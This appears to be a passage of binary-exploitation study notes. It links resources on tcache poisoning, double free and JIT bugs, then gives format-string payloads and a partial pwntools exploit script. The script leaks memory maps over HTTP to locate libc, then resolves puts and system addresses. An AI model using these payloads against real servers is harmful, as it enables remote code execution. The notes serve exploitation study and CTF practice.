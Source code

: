 ### tcache poisoning

- https://pwn-maher.blogspot.com/2020/11/pwn10-heap-exploitation-for-glibc-232.html

### double free

- `_free_hook` override: https://www.hackiit.cf/write-up-c0r0n4con-fwhibbit-ctf-prison-heap/

# jit exploitation

- [LuaJIT Internals](https://0xbigshaq.github.io/2022/08/22/lua-jit-intro/)
- [Exploit Development: Browser Exploitation on Windows \- CVE\-2019\-0567, A Microsoft Edge Type Confusion Vulnerability \(Part 1\) \| Home](https://connormcgarr.github.io/type-confusion-part-1/)

# format string

Reading:

1. Find 1st pattern in leaked addresses
    ```python
    # 32bit
    fmt_str = "AAAA" + ".%x" * 128
    # take returned values
    x = x.split('.')
    x.index('41414141')
    ```

2. Read at address index 123: `%123$s`

Writing:

```python
from pwn import *
import requests
from urllib.parse import quote

context (arch='i686', os='Linux')

RHOST = '127.0.0.1'
RPORT = '9999'

def getFile(file):
    header = { "Range" : "bytes=0-4096"}
    r = requests.get(f"http://{RHOST}:{RPORT}/{file}", headers=header)
    return r.text

# Step 1. Find Addresses
log.info("Finding Binary/LibC Location via /proc/self/maps")
maps = getFile("/proc/self/maps")
addr_bin = maps.split('\n')[0][:8]
addr_libc = maps.split('\n')[6][:8]
log.success(f"Binary is at: 0x{addr_bin}")
log.success(f"Libc is at: 0x{addr_libc}")

# Step 2. Calculate Offsets, Validate first with localhost libc
log.info("Finding the address of PUTS + SYSTEM()")
elf = ELF("./httpserver", checksec=False)
libc = ELF("./libc.so.6.32.self", checksec=False)
elf.address = int(addr_bin, 16)
libc.address = int(addr_libc, 16)
got_puts = elf.got['puts']
```